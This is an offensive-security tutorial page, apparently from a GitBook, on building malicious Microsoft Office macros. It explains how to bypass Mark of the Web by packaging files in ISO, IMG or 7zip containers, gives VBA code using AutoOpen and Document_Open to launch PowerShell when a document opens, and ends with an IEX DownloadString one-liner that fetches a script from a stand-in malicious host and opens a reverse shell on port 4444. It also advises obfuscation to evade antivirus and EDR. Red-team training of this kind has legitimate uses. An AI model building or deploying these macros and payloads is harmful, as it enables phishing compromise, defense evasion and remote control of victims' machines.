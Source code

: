 ```yaml
---
description: >-
  Threat actors have been using malicious Office macros to compromise companies
  for as long as time. Here's some important information & techniques we can use
  with modern macros.
---
```


# Malicious Macros

## Macros

Microsoft Office applications allow us to embed macros, which are commands and instructions that complete a task. This can be linking documents, loading libraries, or other legitimate tasks that help companies manage their programs.

Macros are one of the oldest and best-known client-side attack vectors.

## Introduction - Theory & Goals.

The threat landscape for Microsoft Office is relatively vast.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot_20231011_152419.png" alt=""><figcaption></figcaption></figure>

I won't be including the steps on installing Office, though I might add a VM Image here in the future that includes a free trial for us to use.



## Mark Of The Web (MOTW) - Zone Identifier Alternate Data Stream &#x20;

Zone Identifier Alternate Data Stream's are information on a the origins of a file. This is used by administrators and system monitoring tools to protect users from possible malicious software.

_**Windows Defender Smartscreen**_

<figure><img src="../../.gitbook/assets/Screenshot_20231011_151407.png" alt=""><figcaption></figcaption></figure>

_**Microsoft Office**_

<figure><img src="../../.gitbook/assets/Screenshot_20231011_150609.png" alt=""><figcaption><p>Microsoft Excel includes an "Enable" switch for macros.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot_20231011_150652.png" alt=""><figcaption><p>Microsoft Word blocks Macros entirely.</p></figcaption></figure>

## Bypassing MOTW

Luckily for us, it's Microsoft we're targeting. So there are plenty of ways to bypass this.

### Containerizing Files

We can avoid being flagged by MOTW by using **7zip**, **ISO**, **IMG**, and other containerized file formats.





## Building a Malicious Office Macro

We will start by creating an empty Office Word document and navigating to View -> Macro.

<figure><img src="../../.gitbook/assets/Screenshot_20231011_153356.png" alt=""><figcaption></figcaption></figure>

We go Macro -> Document Name -> Create.

<figure><img src="../../.gitbook/assets/Screenshot_20231011_153553.png" alt=""><figcaption></figcaption></figure>

We are brought to the Visual Basic for Applications IDE.

<figure><img src="../../.gitbook/assets/Screenshot_20231011_154220.png" alt=""><figcaption></figcaption></figure>

We can Instantiate and Invoke a Windows Script with CreateObject. In this example we run PowerShell.&#x20;

We specify AutoOpen() and Document\_Open() to automatically run the macro when the office document is opened.

<pre class="language-visual-basic"><code class="lang-visual-basic">Sub AutoOpen()

  dangerousMacro
  
End Sub

Sub Document_Open()

  dangerousMacro
  
End Sub

<strong>Sub dangerousMacro()
</strong>
  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
</code></pre>



### Essential Techniques

Like any successful malware, proper obfuscation techniques is essential for bypassing AV / EDR. View "Malware Development" for more resources.



_**Fetch From Web Server:**_

```
IEX(New-Object System.Net.WebClient).DownloadString('http://malicious-host.com/badass_script.ps1');badass_script -c <our-ip> -p 4444 -e powershell
```

